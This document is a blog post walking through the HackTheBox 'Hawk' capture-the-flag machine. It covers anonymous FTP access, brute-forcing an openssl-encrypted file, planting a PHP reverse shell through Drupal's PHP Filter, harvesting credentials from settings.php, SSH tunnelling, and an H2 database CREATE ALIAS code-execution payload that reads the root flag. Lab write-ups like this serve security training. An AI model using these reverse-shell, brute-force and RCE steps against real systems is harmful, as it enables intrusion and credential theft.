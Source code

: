 ```yaml
---
layout: post
title: HackTheBox - Hawk
categories: htb
permalink: /htb-hawk
---
```


![BoxInfo]({{ site.baseurl }}/assets/htb-images/hawk/infocard.png)

Starting off with a nmap scan to enumerate ports, thus to determine the potential attack vector !

![Nmap]({{ site.baseurl }}/assets/htb-images/hawk/InitialScan-Nmap.png)

FTP is open and the header shows that I can login anonymously and that there is a folder called "messages".  Using the command:

> ftp 10.10.10.102 21

I logged in to FTP with username: Anonymous & empty password. After listing the files in the folder messages, I didn't see anything, but after listing all files with hidden files as well, I was able to find a hidden file called: ".drupal.txt.enc".

![FTP]({{ site.baseurl }}/assets/htb-images/hawk/FTPHiddenFile.png)

By the name of the file I was able to determine that it was storing an encrypted information. I had to decrypt it somehow but first I had to see what was the cipher used to encrypt the informaiton. Once I checked the file by running "file .drupal.txt.enc", I noticed that it is Base64 encoded but openssl encrypted with salted password. It was easy to decode the base64 by just running:

> base64 -d .drupal.txt.enc > decrypted.txt.enc

I did some google research and found a tool which is used to bruteforce openssl salted passwords. [Link to tool](https://github.com/glv2/bruteforce-salted-openssl)
To bruteforce the password, I ran:

```
#Dependencies to download !#dh-autoreconf <---
apt-get install dh-autoreconfmv .drupal.txt.enc 
drupal.txt.encbase64 -d drupal.txt.enc > decrypted.txt.encbruteforce-salted-openssl -t 6 -f 
/usr/share/wordlists/rockyou.txt -d sha256 -c AES-256-CBCdecrypted.txt.enc

#Password: friends
```

![BruteF-Passwd]({{ site.baseurl }}/assets/htb-images/hawk/BruteF-Passwd.png)

Now I had the password and it was time to decrypt the file and read the message.

```
#OpenSSL
openssl enc -aes-256-cbc -d -salt -base64 -in .drupal.txt.enc -md sha256 -k friends
#Drupal Admin Panel Account
#Password: PencilKeyboardScanner123
```

![Decryption-Drupal]({{ site.baseurl }}/assets/htb-images/hawk/Decryption-Drupal.txt.enc.png)

Judging by the name of the file, I had to use this password for the Drupal web server. I accessed it on port 80. After accessing Drupal, I immediately saw a login form and I tried to login with username: admin & the decrypted password from the openssl file and it worked !

![Drupal-Admin-Acces]({{ site.baseurl }}/assets/htb-images/hawk/Drupal-Admin-Acces.png)

So after doing some enumeration and looking at the HTB forum for hints I found that H2 Database which runs on port 8082 has some vulnerabilities but they didn't worked ! I went back to the Drupal web page and started enumerating it ! Section modules on the top was pretty interesting and i was able to find a module called “PHP Filter”, which when turnedon would allow me to execute PHP code, so that means I will be able to get a reverse shell ! So I accessed the modules and enabled PHP Filtering !

![phpfilter-module-drupal]({{ site.baseurl }}/assets/htb-images/hawk/phpfilter-module-drupal.png)

After enabling the PHP Filter module, I created a new article page and changed the text format to be PHP Code, after that I used msfvenom PHP reverse shell sample code by generating one and adding it in the body section, then I saved the article and accessed it and I got a reverse shell !

```
#In Metasploit
use multi/handlerset payload php/meterpreter/reverse_tcp
set lhost <IP>
set lport <>
exploit -j -z
```

![Meterpreter-Session]({{ site.baseurl }}/assets/htb-images/hawk/Meterpreter-Session.png)

So after doing some enumeration in the root folder of the system i wasn't able to find anything as credentials for user daniel, so I went back to where Drupal was install and checked in sites/default/... for some configuration files that may contain passwords ! This link helped me to understand what to look for -> [Link]](https://www.drupal.org/docs/7/install/step-3-create-settingsphp-and-the-files-directory).So in sites/default/settings.php I have found the password for user daniel ! Now I just had to log in as daniel through ssh !

![Settings.php-Daniel-Creds]({{ site.baseurl }}/assets/htb-images/hawk/Settings.php-Daniel-Creds.jpg)

When I logged in as daniel, I was spawned in python3 interactive mode shell and I had to espace it and get bash or sh. To do this I used the python one line command to get proper TTY shell, by separating each command to be able to run then in the python interactive shell. 

```
#In Terminal
import ptypty.spawn("/bin/bash")
#Python iShell Escaped !
```

After I got a bash shell, I started enumerating the machine to find interesting information which would allow me to privilege escalate to root. When I enumerated the machine with user daniel, I wasn't able to find anything interesting, so I went back to the initial foothold and nmap scan and the target for me was now the H2 Console. When I tried to access the server on port 8082 it said that it didn't allow remote connections, which lead to my next step, to tunnel the connection to my machine and then access H2 Console ! For tunneling the connection, this website helped me to understand how to do it -> [Link](https://razorsql.com/articles/configuring_ssh_tunnels_database_connections.html).

```
#In Terminal#To get the tunnel to work through SSH
$ ssh -L 8083:10.10.10.102:8082 daniel@10.10.10.102
#Password: drupal4hawk
#Tunnel works !
```

Once I got the tunnel up and running I accessed the H2 Console on localhost with the port I set it to run on. I saw another login form.

![H2-Console-Accessed]({{ site.baseurl }}/assets/htb-images/hawk/H2-Console-Accessed.jpg)

With some questioning and testing here, I was able to login, but the trick to login to H2 Console was that I had to set the database to run in memory. I gathered some useful information before I accessed the H2 Console, such as potential usernames and passwords.

```
#Usernames: drupal, admin, sa, root, daniel
#Passwords: PencilKeyboardScanner123, drupal4hawk, xxj31ZMTZzkVA
```

A website that helped me to get the memory database is this one [Link](https://www.javatips.net/blog/h2-in-memory-database-example). So once I tried all of the credentials I found, the one combo that worked and worked for SSH or daniel account !

```
#Creds for H2 Console
User Name: daniel
Password: drupal4hawk
```

![H2Console-Terminal
]({{ site.baseurl }}/assets/htb-images/hawk/H2Console-Terminal.jpg)

Earlier I have found a great blog expaining a vulnerability in H2 Database where if no user was set, the database will use the default one sa:*blank_password*, so by accessing the H2 Console, I could send commands and get a reverse shell !
Link to the blog exaplaining the vulnerability and exploit -> [Link](https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html).
So, I was able to get the root flag by using the exploit code this person has written. Since the H2 Database is running as root user I just have to enter the command, make a small changeto the exploit code and get the root flag !

```
#Exploit code to output “id”

CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException
{ java.util.Scanner s = newjava.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream())
.useDelimiter("\A"); returns.hasNext() ? s.next() : ""; }$$;CALL SHELLEXEC('id')
```

So by changing ‘id’ in line CALL SHELLEXEC to ‘cat /root/root.txt’ I am able to get the root flag !

![ExploitCode-RootFlag]({{ site.baseurl }}/assets/htb-images/hawk/ExploitCode-RootFlag.jpg)